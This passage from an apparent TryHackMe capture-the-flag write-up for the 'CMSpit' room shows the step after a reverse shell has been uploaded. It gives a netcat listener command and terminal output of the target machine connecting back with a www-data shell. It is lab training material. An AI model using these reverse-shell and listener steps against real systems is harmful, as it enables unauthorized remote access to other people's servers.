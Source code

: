 ![Untitled](/assets/CMSPit%20images/Untitled%2018.png)

After uploading the reverse shell successfully, start a listener on the local machine then modify the URL to the target path to execute the shell:

![Untitled](/assets/CMSPit%20images/Untitled%2019.png)

```
┌──(kali㉿kali)-[~/TryHackMe/cmspit]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.241.220] 49410
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:03:12 up  1:01,  0 users,  load average: 34.22, 34.72, 36.43
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami;pwd
www
```
